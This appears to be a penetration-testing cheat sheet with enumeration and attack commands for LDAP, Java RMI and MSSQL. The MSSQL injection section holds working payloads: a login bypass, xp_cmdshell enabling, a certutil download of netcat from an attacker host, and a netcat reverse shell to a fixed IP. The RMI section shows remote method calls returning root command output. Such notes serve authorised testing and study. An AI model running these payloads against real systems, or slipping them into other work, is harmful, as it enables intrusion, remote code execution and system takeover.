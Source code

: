 ### LDAP [389,636 TCP]

https://book.hacktricks.xyz/pentesting/pentesting-ldap

Enumerate LDAP
```
$ nmap -p389 -n -sV --script "ldap* and not brute" [target]
$ ldapsearch -x -b "dc=acme,dc=com" "*" -h [target]
```

### Java RMI (Remote Method Invocation)

Java RMI is an object-orientated RPC mechanism that allows an object in a JVM to call methods in another JVM.

```
# Enum common RMI vulnerabilities
$ rmg enum [target] [rmi_port]

# Enum RMI methods
$ rmg guess [target] [rmi_port]
[+] Listing successfully guessed methods:
[+] 	- plain-server2 == plain-server
[+] 		--> String execute(String dummy)

# Call methods enum'd above
$ rmg call [target [rmi_port] '"id"' \
    --bound-name plain-server \
    --signature "String execute(String dummy)" \
    --plugin GenericPrint.jar
[+] uid=0(root) gid=0(root) groups=0(root)
```

### MSSQL [1433 TCP]

MSSQL client
```
# Recommended -windows-auth when you are going to use a domain. Use as domain the netBIOS name of the machine
$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
$ sqsh -S <IP> -U <Username> -P <Password> -D <Database>

$ sqlcmd -S [target] -U [username] -P [password]
```

MSSQL Injection
```
/login.asp?name=admin'%20or%20'1'%3d'1'--&pass=asdf # bypass login

param=';EXEC sp_configure 'show advanced options', 1; RECONFIGURE; # enable xp_cmdshell code exec
param=';EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;           # enable xp_cmdshell code exec
param=';EXEC%20xp_cmdshell%20'ping%20192.168.119.210'--            # test code exec

param=';EXEC xp_cmdshell 'certutil.exe -urlcache -split -f http://[kali]/nc.exe'-- # upload netcat
param=';EXEC xp_cmdshell 'nc 192.168.119.210 443 -e cmd.exe'--    # initiate reverse shell connection
```
